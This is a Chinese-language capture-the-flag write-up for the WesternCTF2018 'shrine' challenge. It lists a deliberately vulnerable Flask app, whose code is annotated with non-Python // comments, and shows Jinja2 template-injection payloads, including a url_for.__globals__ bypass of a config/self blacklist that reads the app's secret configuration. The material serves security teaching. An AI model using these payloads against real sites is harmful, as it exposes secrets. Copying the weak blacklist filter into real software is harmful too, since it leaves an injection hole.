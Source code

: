 ## [WesternCTF2018]shrine

 1 import flask 

2 import os 

3  

4 app = flask.Flask(__name__) 

5  

6 app.config['FLAG'] = os.environ.pop('FLAG')//注册了一个名为FLAG的config，这里基本可以确定是flag。 

7  

8  

9 @app.route('/') 10 def index(): 

11     return open(__file__).read() 

12  

13  

14 @app.route('/shrine/<path:shrine>')//这里设置了shrine路由，这里可能会实现ssti 

15 def shrine(shrine): 

16  

17     def safe_jinja(s)://jinja模板 

18         s = s.replace('(', '').replace(')', '') 

19         blacklist = ['config', 'self']//设置黑名单 

20         return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s//把黑名单的东西遍历并设为空 

21  

22     return flask.render_template_string(safe_jinja(shrine))//进行模块渲染 23  

24 

 25 if __name__ == '__main__': 26     app.run(debug=True)

有jinja模板，render渲染，可以试试ssti，在/shrine后面加上{{7*7}}

发现有49，有ssti漏洞

通过代码，我们可以想到是访问shrine路径，在shrine下利用用ssti漏洞，测试一下吧 shrine/{{7*7}} 

用{{config}}查看配置文件，发现没有东西，被黑名单过滤了，{{self.**dict**}}也可以，但是被过滤了。但是在python里，有许多内置函数，其中有一个 url_for ，其作用是给指定的函数构造 URL。配合**globals()**，该函数会以字典类型返回当前位置的全部全局变量。这样也可以实现查看的效果

 shrine/{{url_for.__globals__}}

![img](https://img2020.cnblogs.com/blog/2154558/202103/2154558-20210330102302921-1656687710.png)

current_app': <Flask 'app'>这里的current就是指的当前的app，这样我们只需要能查看到这个的config不就可以看到flag了，那么构造payload

shrine/{{url_for.__globals__['current_app'].config}}

![img](https://img2020.cnblogs.com/blog/2154558/202103/2154558-20210330102531223-997983878.png)

找到flag

### 知识点：{{url_for.__globals__}}会以字典类型返回当前位置的全部全局变量。这样也可以实现查看的效果

可以代替{{config}}

